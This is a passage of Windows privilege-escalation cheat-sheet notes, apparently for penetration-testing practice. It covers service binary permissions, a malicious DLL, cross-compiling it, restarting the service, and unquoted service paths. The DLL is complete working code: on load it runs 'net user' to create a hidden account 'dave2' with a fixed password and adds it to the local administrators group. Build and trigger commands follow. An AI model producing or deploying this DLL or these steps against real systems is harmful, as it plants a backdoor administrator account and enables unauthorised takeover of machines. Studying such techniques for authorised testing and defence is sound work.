 #### Displaying permissions on the binary

```
icacls <<SERVICE_BINARY>>
```

#### Creating malicious DLL

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Cross-Compile the C++ Code to a 64-bit DLL

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

#### Restarting Service 

```powershell
Restart-Service <<SERVICE_NAME>>
```

### Unquoted Service Paths

Let's show this in an example with the unquoted service binary path **C:\Program Files\My Program\My Service\service.exe**. When Windows starts the service, it will use the following order to try to start the executable file due to the spaces in the path.

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
